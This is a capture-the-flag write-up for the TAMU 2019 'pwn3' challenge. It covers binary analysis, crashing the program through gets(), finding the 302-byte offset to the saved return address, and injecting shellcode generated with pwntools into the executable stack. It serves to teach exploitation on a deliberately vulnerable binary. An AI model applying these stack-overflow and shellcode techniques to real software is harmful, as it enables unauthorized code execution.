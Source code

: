 # pwn3 tamu 2019

## Binary analysis

- Run the usual tools to get to know what you're dealing with:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ file pwn3
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ checksec pwn3
[*] '/home/noobuntu/nightmare/bof/shellcodin/challs/tamu2019/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

- So it's 32 bit binary and full RELRO is enabled, which means overwriting GOT is impossible.
- Simply running the binary and it prints a string and waits for our input:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ./pwn3
Take this, you might need it on your journey 0xffcdb81e!
mmm kay
```

- It's also possible to crash the program by sending it something big enough:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ./pwn3
Take this, you might need it on your journey 0xffd7060e!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

- And that's because this program uses `gets` function which is insecure:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ltrace ./pwn3
__libc_start_main(0x60ac75e3, 1, 0xff879374, 0x60ac7630 <unfinished ...>
setvbuf(0xea02ada0, 0x2, 0, 0)                                                                = 0
printf("Take this, you might need it on "..., 0xff87916eTake this, you might need it on your journey 0xff87916e!
)                                     = 57
gets(0xff87916e, 0xff87916e, 0xea1bc700, 0x60ac75acAAAAAAAAAAAAAAAAAAA
)                                          = 0xff87916e
+++ exited (status 0) +++
```

- So it appears I can change the RIP of this program:

```sh
read(0, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1024) = 373
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

- Time for ghidra.
- So main is simple enough it just calls `echo` function:

![main](scrs/main.png)

- `echo` function declares a buffer which is 294 bytes long.
- As it turns out, the memory address we receive is actually the memory address of this buffer.

![echo](scrs/echo.png)


## Exploitation

- Have a look at the `strace` output, and you will see `IJKL` is what overwrites EIP.

```sh
read(0, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOP
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1024) = 311
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x4c4b4a49} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

- So the offset is 302 bytes from the beginning of the buffer.
- You could've done similar thing and calculated the offset by yourself with:

```sh
gef➤  search-pattern 123456789
[+] Searching '123456789' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x565581a0 - 0x565581ab  →   "123456789\n" 
[+] In '/usr/lib/i386-linux-gnu/libc.so.6'(0xf7da2000-0xf7e27000), permission=r--
  0xf7db0e51 - 0xf7db0e88  →   "123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`ab[...]" 
  0xf7db1bbe - 0xf7db1bcd  →   "123456789:;<=>?" 
  0xf7dc0b23 - 0xf7dc0b5a  →   "123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmno[...]" 
  0xf7dc0b81 - 0xf7dc0ba4  →   "123456789abcdefghijklmnopqrstuvwxyz" 
  0xf7dc0bc1 - 0xf7dc0be4  →   "123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ" 
  0xf7dc0c35 - 0xf7dc0c3e  →   "123456789" 
  0xf7dc4991 - 0xf7dc49a0  →   "123456789abcdef" 
[+] In '/usr/lib/i386-linux-gnu/ld-linux.so.2'(0xf7fec000-0xf7ffb000), permission=r--
  0xf7ff18fd - 0xf7ff190c  →   "123456789abcdef" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffce2e - 0xffffce37  →   "123456789" 
gef➤  i f
Stack level 0, frame at 0xffffcf60:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffcf80
 Arglist at 0xffffcf58, args: 
 Locals at 0xffffcf58, Previous frame's sp is 0xffffcf60
 Saved registers:
  ebx at 0xffffcf54, ebp at 0xffffcf58, eip at 0xffffcf5c
---
# 0xffffcf5c−0xffffce2e = 302
```

- I've wrote `exploit.py` to help me automate this process.
- But I've had no luck exploiting this program, it simply doesn't execute my shell.
- I've also looked at the official writeup, and my python script is very similar to that of the author's but still no luck.
- No matter what I do, all I get is a segmentation fault:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ python3 exploit.py 
[+] Starting local process './pwn3': pid 3475
b'Take this, you might need it on your journey '
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ id
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 3475)
[*] Got EOF while sending in interactive
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ python3 exploit.py 
[+] Starting local process './pwn3': pid 3481
b'Take this, you might need it on your journey '
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ w
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 3481)
[*] Got EOF while sending in interactive
```

### Solution

- Solution came by using pwntool's shellcraft module.
- With it I've modified my `exploit.py` to include generated shell code from shellcraft.

![flag](scrs/flag.png)
